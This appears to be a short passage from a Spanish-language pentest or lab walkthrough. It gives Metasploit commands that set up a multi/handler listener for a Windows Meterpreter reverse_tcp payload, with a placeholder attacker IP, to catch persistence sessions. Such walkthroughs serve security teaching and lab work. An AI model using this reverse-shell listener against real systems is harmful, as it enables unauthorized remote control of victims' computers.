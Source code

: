 Configuración del 'Listener' para las sesiones de persistencia 
```bash 
❯ use exploit/multi/handler                              # Usaremos el exploit
❯ show options 
❯ set payload windows/meterpreter/reverse_tcp            # Configuramos un payload dedicado a Windows 
❯ set LHOST <IP Atacante>                                # Configuramos nuestra IP
❯ run
```

